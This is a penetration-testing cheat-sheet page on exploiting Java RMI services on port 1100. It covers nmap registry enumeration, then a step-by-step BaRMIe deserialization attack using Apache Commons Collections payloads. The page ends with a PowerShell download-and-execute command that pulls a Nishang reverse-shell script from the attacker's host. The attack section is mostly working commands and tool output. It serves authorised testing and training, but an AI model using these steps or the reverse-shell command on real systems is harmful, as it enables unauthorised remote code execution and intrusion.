 ```yaml
---
title: PORT 1100/tcp - Java RMI
category: Services
order: 9
---
```


The Java Remote Method Invocation, or Java RMI, is a mechanism that allows an object that exists in one Java virtual machine to access and call methods that are contained in another one.

## Enumeration

We can enumerate RMI ports with nmap.

```
nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" -p <PORT> <IP>

<PORT>/tcp  open  java-rmi     Java RMI
| rmi-dumpregistry:
|   creamtec/ajaxswing/JVMFactory
|     com.creamtec.ajaxswing.core.JVMFactory_Stub
|     @127.0.0.1:49157
|     extends
|       java.rmi.server.RemoteStub
|       extends
|_        java.rmi.server.RemoteObject
```

## BaRMIe.jar

If we can dump the registry of the java-rmi instance is the case where the machine may be vulnerable to a deserialization exploit. To exploit this deserialization on RMI ports I'm going to use BaRMIe.jar. We can download the file on the following link.

* [https://github.com/NickstaDB/BaRMIe/releases/download/v1.01/BaRMIe_v1.01.jar](https://github.com/NickstaDB/BaRMIe/releases/download/v1.01/BaRMIe_v1.01.jar)

You need to select some parameters such as **target**, **attack**, **payload** and **OS command**, here and example of usage with a nishang reverse shell. I used Apache Commons for payload but you can use one different.

```
$ java -jar BaRMIe_v1.01.jar -attack <IP> <PORT>

Target summary:
  <IP>:<PORT>
    Available attacks:
      [---] Java RMI registry illegal bind deserialization

Target selection
 1) <IP>:<PORT> Reliability [---], Deser attack [Y], payload [?]
Select a target to attack (q to quit): 1

Available attacks for target: <IP>:<PORT>
 1) [---] Java RMI registry illegal bind deserialization
Select an attack to execute (b to back up, q to quit): 1

Attack: Java RMI registry illegal bind deserialization [---]

Deserialization payloads for: <IP>:<PORT>
 1) Apache Commons Collections 3.1, 3.2, 3.2.1
 2) Apache Commons Collections 4.0-alpha1, 4.0
 3) Apache Groovy 1.7-beta-1 to 2.4.0-beta-4
 4) Apache Groovy 2.4.0-rc1 to 2.4.3
 5) JBoss Interceptors API
 6) ROME 0.5 to 1.0
 7) ROME 1.5 to 1.7.3
 8) Mozilla Rhino 1.7r2
 9) Mozilla Rhino 1.7r2 for Java 1.4
 10) Mozilla Rhino 1.7r3
 11) Mozilla Rhino 1.7r3 for Java 1.4
 12) Mozilla Rhino 1.7r4 and 1.7r5
 13) Mozilla Rhino 1.7r6, 1.7r7, and 1.7.7.1
 a) Try all available deserialization payloads
Select a payload to use (b to back up, q to quit): 1


Enter an OS command to execute: powershell.exe -command "IEX(new-object net.webclient).downloadstring('http://<ip-kali>/Invoke-PowerShellTcp.ps1')"

```
